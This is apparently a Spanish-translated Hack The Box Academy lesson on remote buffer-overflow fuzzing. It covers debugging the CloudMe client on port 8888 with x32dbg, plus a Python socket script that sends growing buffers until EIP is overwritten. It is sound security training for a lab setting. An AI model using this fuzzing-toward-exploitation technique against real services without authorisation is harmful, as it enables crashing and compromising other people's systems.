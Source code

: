 
Hasta ahora hemos completado un ejercicio de desbordamiento de búfer local, que cubrió todas las partes esenciales de un ejercicio de desbordamiento de búfer basado en pila. Cuando se trata de explotación remota, la principal diferencia estaría en los scripts de explotación, mientras que las partes principales de la explotación de desbordamiento del búfer son las mismas.

## Depurar un programa remoto

Ya sea que estemos depurando un programa local o uno que escuche conexiones remotas, tendremos que instalarlo y depurarlo localmente en nuestra VM Windows. Una vez que nuestro exploit esté completamente desarrollado, podremos ejecutarlo en el servicio remoto sin necesidad de acceso local. Si se hace correctamente, el exploit debería funcionar, como veremos más adelante.

Esta vez, depuraremos un programa llamado `CloudMe`, una herramienta de usuario final para un servicio de intercambio de archivos, que se encuentra en el escritorio de la máquina virtual de Windows a continuación. Como servicio para compartir archivos, esta herramienta escucha en un puerto cualquier actualización del servidor de archivos. Podemos ver esto si la herramienta se está ejecutando y enumeramos los puertos de escucha en `Powershell`:

```powershell-session
PS C:\htb> netstat -a

...SNIP...
TCP    0.0.0.0:8888           0.0.0.0:0              LISTENING
[CloudMe.exe]
```

Como podemos ver, el servicio está escuchando en el puerto `8888`y también ha establecido una conexión con un servidor remoto. Podemos usar el `netcat`programa en el Escritorio para interactuar con este puerto y ver si acepta algún parámetro:
```powershell-session
PS C:\Users\htb-student\Desktop> .\nc.exe 127.0.0.1 8888
?
PS C:\Users\htb-student\Desktop> .\nc.exe 127.0.0.1 8888
help
```

Intentamos enviar algunos parámetros y cierra las conexiones sin proporcionarnos ningún resultado. Entonces, intentemos depurarlo y combinarlo con cadenas grandes para ver cómo las manejaría.

Para depurar un programa que escucha en un puerto remoto, seguiremos el mismo proceso que hicimos anteriormente en el módulo, ejecutaremos el programa y lo adjuntaremos o lo abriremos directamente en `x32dbg`. Si aún no ha desactivado todos los puntos de interrupción en `x32dbg`, debería hacerlo, ya que este programa contiene muchos puntos de interrupción. Consulte la `Fuzzing`sección para ver cómo hacerlo.

## Puerto remoto de fuzzing

Una vez que nuestro programa se esté ejecutando y estemos conectados a él mediante `x32dbg`, podemos comenzar a modificarlo e intentar bloquearlo. A diferencia de la fuzzing local, donde escribimos nuestras cargas útiles en un archivo y luego abrimos el archivo en nuestra aplicación o copiamos manualmente nuestra carga útil en un campo de texto en el programa, con la fuzzing remota podemos automatizar este proceso a través de nuestro exploit Python.

Crearemos un nuevo script llamado `win32bof_exploit_remote.py`y comenzaremos agregando un par de variables para `IP`y `port`, de modo que podamos cambiarlas fácilmente si queremos usar el script en otro servidor. Luego, escribiremos nuestra función de fuzzing `def fuzz():`. Queremos enviar incrementos de cadenas grandes, comenzando desde `500`bytes de longitud e incrementando `500`en cada iteración, hasta que enviemos una cadena lo suficientemente larga como para bloquear el programa. Para lograr esto, recorreremos un rango desde `0`hasta `10,000`con incrementos de `500`, de la siguiente manera:

Código: pitón

```python
import socket
from struct import pack

IP = "127.0.0.1"
port = 8888

def fuzz():
    for i in range(0,10000,500):
        buffer = b"A"*i
        print("Fuzzing %s bytes" % i)
```

La declaración de impresión nos ayuda a conocer el tamaño actual del búfer de fuzzing para que cuando el programa finalmente falle, sepamos qué longitud causó que fallara.

A continuación, debemos conectarnos al puerto cada vez y enviarle nuestra carga útil. Para hacerlo, tenemos que importar la `socket`biblioteca como lo hicimos al comienzo de nuestro código anterior y luego establecer una conexión al puerto con la `connect`función, de la siguiente manera:

```python
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((IP, port))
```

Con eso, deberíamos estar listos para enviar nuestro buffer, lo cual podemos hacer a través de `s.send(buffer)`. También necesitaremos envolver nuestro bucle en un `try/except`bloque, para que podamos detener la ejecución cuando el programa falle y ya no acepte conexiones. Nuestra `fuzz()`función final debería verse de la siguiente manera:

```python
def fuzz():
    try:
        for i in range(0,10000,500):
            buffer = b"A"*i
            print("Fuzzing %s bytes" % i)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((IP, port))
            s.send(buffer)
            s.close()
    except:
        print("Could not establish a connection")

fuzz()
```

Nota: En nuestro caso, el programa cierra la conexión después de cada entrada, como vimos anteriormente, por lo que establecemos una nueva conexión en cada iteración del bucle. Si pudiéramos conservar la conexión, como un cliente ftp o de correo electrónico, sería mejor establecer la conexión antes del ciclo y luego repetir la `s.send(buffer)`función.

Consejo: Como nuestro servidor es vulnerable en el punto de entrada después de establecer la conexión, enviamos directamente nuestra carga útil. También es posible interactuar con el servidor y pasar datos como credenciales de inicio de sesión o ciertos parámetros para alcanzar la función vulnerable, usando `send`y `recv`. Puedes leer más sobre `socket`funciones en la [Documentación Oficial](https://docs.python.org/3/library/socket.html) .

Ejecutamos nuestro script y vemos lo siguiente:

```cmd-session
Fuzzing 0 bytes
Fuzzing 500 bytes
...SNIP...
Fuzzing 9000 bytes
Fuzzing 9500 bytes
```

Vemos que todo el script se ejecutó sin bloquear los servicios de escucha, ya que el puerto `8888`siguió escuchando durante nuestra confusión. Sin embargo, si verificamos nuestro `x32dbg`depurador, vemos que el `cloudme`programa front-end falló y se `EIP`sobrescribió con nuestro `A`búfer:

![Fuzz remoto](https://academy.hackthebox.com/storage/modules/89/win32bof_remote_fuzz.jpg)

Esto indica que el servicio de escucha real puede no ser vulnerable ya que nuestra entrada nunca lo bloquea. Sin embargo, el programa front-end también debe procesar esta entrada (por ejemplo, para sincronizar archivos) y es vulnerable a un desbordamiento del búfer, que podemos aprovechar a través del servicio de escucha. Este es un caso único que muestra que si una entrada se procesa en múltiples ubicaciones/programas, debemos asegurarnos de depurarlos todos, ya que solo uno de ellos puede ser vulnerable.
## Fuzzing gradual

Nos enfrentamos al problema aquí porque nuestro programa nunca deja de enviar cargas útiles ya que el servicio de escucha nunca falla. Entonces, ¿cómo podríamos saber en qué longitud del búfer falló el programa?

Podemos enviar gradualmente nuestro buffer agregando un `breakpoint()`después `s.send(buffer)`, de modo que cuando podamos continuar manualmente presionando `c`, podamos ver si nuestra entrada bloqueó el programa y se sobrescribió `EIP`.

	Consejo: Puede tener ambos `x32dbg`y Python IDLE uno al lado del otro, para que pueda notar inmediatamente cuando el programa falla.

Entonces, agregaremos nuestro punto de interrupción a nuestro exploit, reiniciaremos el programa en `x32dbg`y comenzaremos a desdibujar gradualmente el programa:

```cmd-session
Fuzzing 0 bytes
> c:\users\htb-student\desktop\win32bof_exploit_remote.py(13)fuzz()
-> s.send(buffer)
(Pdb) c
Fuzzing 500 bytes
> c:\users\htb-student\desktop\win32bof_exploit_remote.py(12)fuzz()
-> breakpoint()
(Pdb) c
Fuzzing 1000 bytes
> c:\users\htb-student\desktop\win32bof_exploit_remote.py(13)fuzz()
-> s.send(buffer)
(Pdb) c
Fuzzing 1500 bytes
> c:\users\htb-student\desktop\win32bof_exploit_remote.py(12)fuzz()
-> breakpoint()
(Pdb) c
...
```

Una vez que el programa falla y `EIP`se sobrescribe, sabemos que la última cantidad de bytes que enviamos es lo que bloqueó el programa y que el programa es vulnerable a un desbordamiento del búfer.

En la siguiente sección, continuaremos con los pasos restantes que seguimos anteriormente para aprovechar la vulnerabilidad de desbordamiento del búfer.